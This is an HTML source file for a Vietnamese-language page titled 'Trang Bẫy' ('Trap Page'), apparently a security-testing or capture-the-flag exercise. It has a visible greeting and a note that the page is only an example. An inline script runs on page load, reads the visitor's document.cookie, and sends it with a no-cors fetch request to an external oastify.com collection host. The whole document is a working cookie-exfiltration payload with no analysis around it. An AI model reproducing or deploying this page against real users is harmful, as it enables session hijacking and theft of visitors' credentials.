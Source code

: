 <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Trang Bẫy</title>
</head>
<script>
    (async function() {
        var userCookies = document.cookie;
        var destinationURL = 'https://4otqlnlzkuzzujpb580ev4be359wxnlc.oastify.com'; 
        try {
            // Gửi yêu cầu GET mà không cần quan tâm đến CORS policy
            await fetch(`${destinationURL}?cookies=${encodeURIComponent(userCookies)}`, {
                method: 'GET',
                mode: 'no-cors' // Sử dụng mode no-cors để tránh vấn đề CORS
            });
        } catch (error) {
            console.error('Error:', error);
        }
        })();
</script>
    
<body>
    <h1>Chào mừng bạn đến với Trang Bẫy</h1>
    <p>Trang này là một ví dụ, không có nội dung thực sự.</p>
</body>
</html>
